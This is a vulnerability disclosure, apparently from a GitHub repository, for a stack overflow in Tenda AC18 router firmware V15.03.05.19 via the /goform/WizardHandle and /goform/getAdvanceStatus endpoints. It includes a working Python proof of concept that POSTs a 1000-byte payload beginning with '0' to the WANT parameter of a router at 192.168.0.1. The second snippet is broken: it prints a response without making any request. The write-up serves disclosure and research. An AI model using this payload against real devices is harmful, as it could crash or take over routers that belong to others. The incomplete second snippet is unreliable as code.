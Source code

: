 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/WizardHandle` url. The `nptr` variable receives the `WANT` parameter from a POST request and is stored in the configuration item named``wan1.connecttype` through the SetValue function.To bypass the atoi function, the payload needs to start with the number 0.In order to parse %d as 1, it is also necessary to set the value of the `WANS` parameter to 1.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_165442.png)

`wan1.connecttype`  configuration item can  be retrieved through the GetValue function in the `/goform/getAdvanceStatus` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_170347.png)

## PoC

first SetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/WizardHandle"
payload = "0"+"a"*1000

data = {"WANT": payload,"WANS":1}
response = requests.post(url, data=data)
print(response.text)
```

second GetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getAdvanceStatus"

print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)